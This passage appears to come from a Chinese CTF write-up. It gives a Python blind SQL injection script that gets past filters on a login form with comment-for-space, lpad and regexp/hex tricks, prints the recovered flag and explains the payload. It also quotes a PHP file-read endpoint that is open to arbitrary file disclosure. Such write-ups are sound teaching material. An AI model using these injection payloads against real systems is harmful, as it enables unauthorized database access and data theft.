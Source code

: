 ```python
        # payload = f"1'or/**/lpad((select/**/group_concat(distinct/**/column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/regexp/**/'flag_table_1'),{i},1)>/**/0x{table_name}{hex(char)[2:]}#"
        # 爆flag
        payload = f"1'or/**/lpad((select/**/group_concat(flag)/**/from/**/flag_table_1),{i},1)>/**/0x{table_name}{hex(char)[2:]}#"

        data = {
            'username': 'admin',
            'password': payload
        }

        if 'try again' in requests.post(url, data).text and char == 32:
            exit()

        if 'try again' in requests.post(url, data).text:
            table_name += hex(char)[2:]
            result += chr(char)
            print(result, f"i={i} chr={char}")
            break
```

爆出的 Flag：

```
FLAG{YOU_@RE_GOOD_@T_SQL_INJECT}
```

注意 lowerCase 再交。

对上面的 Payload 解释一下：

> lpad 函数这里用作 substr 的替代，lpad(str,i,rstr)表示将 str 左填充入 rstr 使得 str 的长度为 i，当 i 的值小于 str 的长度时，截取 str 返回其左 i 个字符，可做 substr 用。
>
> 数据库名是盲猜的 cumtctf，盲注测试一下就发现是对的。
>
> 过滤了等于号，但是 regexp 以及!<>都是可用的，这里用了 regexp，还是得注意一下 regexp 的匹配规则，^cumtctf$才是对库名为 cumtctf 的精准匹配。
>
> 转十六进制为了防止某些字符在过滤范围里，一般最好转 16 进制进行比较。
>
> select group_concat(dinstinc table_name) from information_schema.columns ... => 该语句中使用聚合函数 group_concat 的目的将表名连接成串，脚本不用改动就可以继续读值，distinct 是去重，没有该操作如果表内有多个列时，可能产生 flag_table_1,flag_table_1 这种类似结果，原因是一个数据表的一个列是单独存放一条记录的，所以表里有 n 列，不去重理论将有 n 个数据表的名字。

### web5-phar

一开始以为是上传题，后来发现不是，可以用 file.php?file=查看所有的源代码，附上:

file.php:

```php
<?php
header("content-type:text/html;charset=utf-8");
include 'function.php';
include 'class.php';
$file = $_GET["file"] ? $_GET['file'] : "";
if(empty($file)) {
    echo "<h2>select your file~<h2/>";
}
$show = new Show();
if(file_exists($file)) {
    $show->filename = $file;
    $show->show();
} else if (!empty($file)){
    die('what\'s wrong with your filepath?');
}
```